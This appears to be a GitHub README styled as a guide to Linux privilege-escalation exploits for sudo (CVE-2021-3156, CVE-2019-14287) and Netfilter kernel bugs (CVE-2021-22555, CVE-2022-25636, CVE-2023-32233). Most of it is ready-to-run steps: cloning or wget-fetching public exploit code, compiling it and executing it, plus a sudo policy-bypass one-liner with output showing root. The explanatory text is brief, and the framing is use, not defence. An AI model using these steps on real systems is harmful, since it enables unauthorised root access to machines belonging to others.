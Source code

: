 # 0-Days
`The Guide`

- [Sudo](#sudo)
  - [usage](#usage)
  - [Sudo policy bypass](#sudo-policy-bypass)
- [Netfilter](#netfilter)

# Sudo
One of the latest vulnerabilities for sudo carries the CVE-2021-3156 and is based on a heap-based buffer overflow vulnerability. This affected the sudo versions:

    1.8.31 - Ubuntu 20.04
    1.8.27 - Debian 10
    1.9.2 - Fedora 33
    and others

To find out the version of sudo, the following command is sufficient:

```bash
sudo -V | head -n1
```
**POC**
```bash
git clone https://github.com/blasty/CVE-2021-3156.git
cd CVE-2021-3156
make
```
### Usage
```bash
./sudo-hax-me-a-sandwich

** CVE-2021-3156 PoC by blasty <peter@haxx.in>

  usage: ./sudo-hax-me-a-sandwich <target>

  available targets:
  ------------------------------------------------------------
    0) Ubuntu 18.04.5 (Bionic Beaver) - sudo 1.8.21, libc-2.27
    1) Ubuntu 20.04.1 (Focal Fossa) - sudo 1.8.31, libc-2.31
    2) Debian 10.0 (Buster) - sudo 1.8.27, libc-2.28
  ------------------------------------------------------------

```
### Sudo Policy Bypass
> Another vulnerability was found in 2019 that affected all versions below 1.8.28, which allowed privileges to escalate even with a simple command. This vulnerability has the CVE-2019-14287 and requires only a single prerequisite. It had to allow a user in the /etc/sudoers file to execute a specific command.
```bash
sudo -u#-1 id
id
uid=0(root) gid=1005(cry0l1t3) groups=1005(cry0l1t3)
```

## Netfilter
>Netfilter is a Linux kernel module that provides, among other things, packet filtering, network address translation, and other tools relevant to firewalls. It controls and regulates network traffic by manipulating individual packets based on their characteristics and rules. Netfilter is also called the software layer in the Linux kernel. 
1. 2021 ([CVE-2021-22555](https://github.com/google/security-research/tree/master/pocs/linux/cve-2021-22555)) `
5.10.5-051005-generic`
```bash
wget https://raw.githubusercontent.com/google/security-research/master/pocs/linux/cve-2021-22555/exploit.c
 gcc -m32 -static exploit.c -o exploit
./exploit
```
2. 2022 ([CVE-2022-25636](https://www.cvedetails.com/cve/CVE-2022-25636/)) `5.13.0-051300-generic`
```bash
git clone https://github.com/Bonfee/CVE-2022-25636.git
cd CVE-2022-25636
make
./exploit
```
Learn [More](https://nickgregory.me/post/2022/03/12/cve-2022-25636/).
  
3. 2023 ([CVE-2023-32233](https://github.com/Liuk3r/CVE-2023-32233))
```bash
git clone https://github.com/Liuk3r/CVE-2023-32233
cd CVE-2023-32233
gcc -Wall -o exploit exploit.c -lmnl -lnftnl
```
> This vulnerability exploits the so called anonymous sets in `nf_tables` by using the `Use-After-Free` vulnerability in the Linux Kernel up to version `6.3.1`. These `nf_tables` are temprorary workspaces for processing batch requests and once the processing is done, these anonymous sets are supposed to be cleared out (Use-After-Free) so they cannot be used anymore. Due to a mistake in the code, these anonymous sets are not being handled properly and can still be accessed and modified by the program.

The exploitation is done by manipulating the system to use the cleared out anonymous sets to interact with the kernel's memory. By doing so, we can potentially gain root privileges.
